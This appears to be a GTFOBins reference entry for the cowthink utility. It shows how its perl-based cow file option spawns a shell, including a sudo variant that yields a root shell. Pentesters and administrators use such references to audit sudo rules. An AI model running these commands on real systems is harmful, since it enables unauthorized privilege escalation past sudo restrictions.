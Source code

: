 description: It allows to execute [`perl`](/gtfobins/perl) code, other functions may apply.
functions:
  shell:
    - code: |
        TF=$(mktemp)
        echo 'exec "/bin/sh";' >$TF
        cowthink -f $TF x
  sudo:
    - code: |
        TF=$(mktemp)
        echo 'exec "/bin/sh";' >$TF
        sudo cowthink -f $TF x
---
